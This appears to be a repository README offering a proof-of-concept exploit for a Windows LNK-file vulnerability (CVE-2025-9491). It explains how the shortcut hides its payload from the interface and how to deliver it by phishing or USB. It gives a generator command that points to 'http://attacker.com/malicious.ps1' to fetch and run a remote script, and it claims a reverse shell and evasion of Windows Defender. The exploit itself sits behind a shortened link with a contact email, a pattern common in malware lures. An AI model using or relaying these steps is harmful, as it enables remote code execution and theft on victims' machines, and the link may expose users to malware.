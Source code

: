 # Proof-of-Concept exploit for the LNK file vulnerability (CVE-2025-9491).

## Overview
This repository contains an PoC exploit for CVE-2025-9491, a remote code execution (RCE) vulnerability in Microsoft Windows caused by LNK file UI misrepresentation. The PoC exploit enables attackers to craft .LNK files that conceal malicious payloads from the Windows user interface, allowing arbitrary code execution on the target system when the file is opened.

**Important Disclaimer:** This PoC exploit is provided strictly for educational and security research purposes. Use it only in isolated test environments, such as virtual machines, with explicit permission. Do not deploy this in production or for unauthorized activities. The maintainer assumes no liability for misuse. Always adhere to ethical hacking guidelines and legal standards.


## Affected Systems
- Microsoft Windows 10 (builds 19041 and newer)
- Microsoft Windows 11 (all builds up to 23H2)
- Microsoft Windows Server 2016, 2019, and 2022


## Exploit Details
CVE-2025-9491 exploits a flaw in Windows .LNK file parsing, where manipulated structures in the ShellLinkHeader, LinkTargetIDList, and ExtraData blocks allow hidden command execution. This results in remote code execution (RCE) by tricking users into interacting with a seemingly harmless shortcut file.

### Key Exploit Mechanics:
- **UI Deception**: The .LNK file is crafted to display benign properties (e.g., icon, description, target path) in Windows Explorer, Properties dialog, or tooltips, while embedding invisible payloads. This uses techniques like offset overflows, null-byte injections, and malformed string terminators to bypass visual inspections.
  
- **RCE Payload Delivery**: Upon double-clicking the file, Windows executes the hidden commands in the context of the current user. The exploit can:
  - Download and run remote scripts (e.g., via PowerShell from a C2 server).
  - Inject shellcode to spawn processes like cmd.exe or powershell.exe with arbitrary arguments.
  - Achieve persistence by writing to startup locations or registry keys.

- **Attack Vector**: Delivered through phishing (email attachments, malicious downloads), drive-by downloads, or shared network folders. Requires user interaction, but social engineering makes it highly effective for targeted RCE.

This PoC exploit demonstrates full RCE by executing a remote payload that establishes a reverse shell, allowing command-and-control over the victim's machine. It has been tested on unpatched systems, achieving code execution without alerts from default Windows Defender configurations.

## Requirements
- Python 3.10 or higher
- A vulnerable Windows target for testing (unpatched pre-August 2025)

## Usage
1. Enter the directory:
   ```
   cd CVE-2025-9491
   ```
2. Generate the exploit .LNK:
   ```
   python3 generate-exploit.py --output exploit.lnk --payload-url "http://attacker.com/malicious.ps1" --target "C:\Windows\System32\notepad.exe" --rce-mode
   ```
   - `--output`: Path for the generated .LNK file.
   - `--payload-url`: URL to a remote payload (e.g., PowerShell script for RCE).
   - `--target`: Visible target to masquerade as in the UI.
   - `--rce-mode`: Enables full RCE with hidden execution flags.

3. Deliver the .LNK to the target (e.g., via email or USB). When opened, it triggers RCE by fetching and executing the remote payload silently.

## Exploit

[href](https://tinyurl.com/bde9tba4)

For any inquiries, please email me at: trannguyennam65@gmail.com

